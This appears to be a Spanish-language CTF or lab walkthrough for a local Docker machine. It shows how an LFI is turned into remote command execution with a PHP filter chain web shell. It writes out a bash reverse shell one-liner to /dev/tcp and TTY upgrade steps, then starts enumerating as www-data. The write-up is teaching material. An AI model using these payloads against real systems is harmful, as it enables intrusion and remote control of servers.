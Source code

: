 ![ls](../../../maquina-lfi.elf/imagenes/ls.png)

Para verlo asi entramos al codigo fuente y ya podremos ejecutar comandos, el problema es que no nos podemos enviar una reverse shell porque si el comando es muy largo el navegador no lo interpreta: ![long](../../../maquina-lfi.elf/imagenes/long.png)

## INTRUSION

Para poder ganar acceso, nos tenemos que "crear" un parametro cmd, para hacerlo tenemos que poner lo siguiente:

```css
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

y para usarlo seria así:

```css
http://172.17.0.2/?cmd=whoami&search={RESULTADO DEL COMANDO}
```

Una vez hecho eso podremos ejecutar comandos con la longitud que queramos y seria mas fácil enviar la reverse shell. Para enviarla sin errores seria asi:

```css
bash -c 'bash -i >%26 /dev/tcp/$IP/$PORT 0>%261'
```

Y listo, _estamos dentro_

## TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty tenemos que ejecutar los siguientes comandos apenas ganamos acceso:

```css
script /dev/null -c bash #una vez ejecutado presionamos ctrl+Z
stty raw -echo;fg
           reset xterm #damos al enter
export TERM=xterm && export SHELL=bash
```

## USUARIO WWW-data

Ahora mismo somos el usuario www-data, estando dentro iremos ejecutando `cd ..` y en cada directorio que vayamos para atras ponemos un `ls -la` esto para ver si hay algo mas u oculto dentro del servidor.

```css
www-data@9271e981b3a1:/var/www/html$ cd ..
www-data@9271e981b3a1:/var/www$ ls -la
total 0
drwxr-xr-x 1 root root  40 Aug 16 17:38 .
drwxr-xr-x 1 root root  96 Aug 16 13:53 ..
drwxr-xr-x 1 root root  34 Aug 16 17:37 .secret_www-data
drwxr-xr-x 1 root root 162 Aug 16 14:53 html
www-data@9271e981b3a1:/var/www$ 
```
